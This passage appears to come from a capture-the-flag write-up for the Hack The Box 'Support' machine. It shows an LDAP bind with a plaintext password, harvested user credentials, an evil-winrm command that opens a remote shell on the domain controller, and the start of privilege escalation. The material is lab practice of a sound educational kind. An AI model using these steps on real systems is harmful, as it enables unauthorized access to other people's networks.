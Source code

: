 Connect to the AD using ldap user creds:
- Bind DN: ldap@support.htb
- Password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

![alt text](image.png)

Got the following creds of support user

```plaintext
support:Ironside47pleasure40Watchful
```

Establish a shell using evil-winrm

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a DC:

```powershell
Get-ADDomain
InfrastructureMaster               : dc.support.htb
```
